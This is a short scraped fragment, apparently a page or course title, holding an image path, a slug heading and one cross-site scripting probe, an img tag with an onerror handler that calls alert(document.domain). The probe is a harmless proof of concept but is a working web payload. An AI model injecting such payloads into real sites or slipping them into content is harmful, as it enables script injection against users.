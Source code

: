 # lessgreaterlessimg-src1-onerroralert-document.domain-greater-course
&lt;>&lt;img src=1 onerror=alert(document.domain)> 
